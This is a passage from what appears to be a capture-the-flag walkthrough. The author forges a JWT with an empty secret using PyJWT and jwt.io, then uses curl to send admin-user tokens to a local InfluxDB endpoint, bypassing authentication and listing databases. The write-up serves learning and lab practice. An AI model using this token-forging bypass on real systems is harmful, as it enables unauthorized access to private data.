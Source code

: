 I don’t see any other fields references, so I’ll start by making a JWT with those two.

#### Craft JWT

I’ll make a token in with [PyJWT](https://pyjwt.readthedocs.io/en/stable/):

```

oxdf@hacky$ python3
Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> import time
>>> int(time.time())
1647008155
>>> jwt.encode({"exp": time.time()+10000, "username": "patrick"}, "", algorithm="HS256")
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDcwMTgyMDIuMDU4MTAzMywidXNlcm5hbWUiOiJwYXRyaWNrIn0.xRh2gVo-K2WMHFTrYqLZgPDkEa0RHL6LrRKsHg5icFA'

```

I’m passing the empty string for the secret.

I can also do the same thing in [jwt.io](https://jwt.io/):

[![image-20211017153323716](https://0xdfimages.gitlab.io/img/image-20211017153323716.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211017153323716.png)

It’s important to make sure to empty the box where the key goes, and check base64.

I’ll send the token via `curl`, and it doesn’t work:

```

patrick@devzat:~$ curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBhdHJpY2siLCJleHAiOjE2NjYwMzQ3MTZ9.NxviPyBvpdyXsf3j7vru-LpLZ3AtGM68049rHSzMqX8"
{
    "error": "user not found"
}

```

Still, the fact that it accepted the token and is just complaining about the user is a really good sign. When I create a token with the username admin, it works:

```

curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY2MDM0NzE2fQ.fd4oRbG8JP0j2uPtYP3dVUSAewNxKxbcYyjhcmYo1I4"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "databases",
                    "columns": [
                        "name"
                    ],
                    "values": [
                        [
                            "devzat"
                        ],
                        [
                            "_internal"
                        ]
```
